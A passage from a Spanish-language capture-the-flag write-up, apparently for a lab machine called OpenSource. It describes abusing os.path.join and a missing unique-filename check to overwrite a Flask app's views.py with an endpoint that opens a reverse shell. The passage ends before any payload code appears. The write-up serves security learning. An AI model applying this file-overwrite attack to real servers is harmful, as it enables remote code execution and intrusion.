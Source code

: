 En **utils.py** podemos ver que la función **get_file_name()** coge nuestro archivo y le quita los **../** de forma recursiva, haciendo imposible aplicar *drectory path traversal*. También podemos ver que pone ***TODO: get unique filename***. Si pone *TODO* es posible que la función *get_unique_upload_name()* no esté implementada en el servidor actual y podamos **sobrescribir archivos**. 

<img src="/photos/2022-10-08-OpenSource-WriteUp/utilspy.png" alt="drawing"  />  

##  Consiguiendo shell como root en un contenedor  

Por lo tanto, sabiendo:
1. Como funciona ***os.path.join()***.
2. Que se puede **sobrescribir archivos**.
3. La ruta absoluta donde se encuentra el código de la aplicación en la máquina víctima (**/app/app/**).
 
Podríamos sobrescribir el archivo **views.py**, creando un nuevo *endpoint*, por ejemplo **http://10.10.11.164/pwned** que nos envíe una **reverse shell** al ejecutarse.

Entonces, **views.py** quedaría de la siguiente manera:

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


```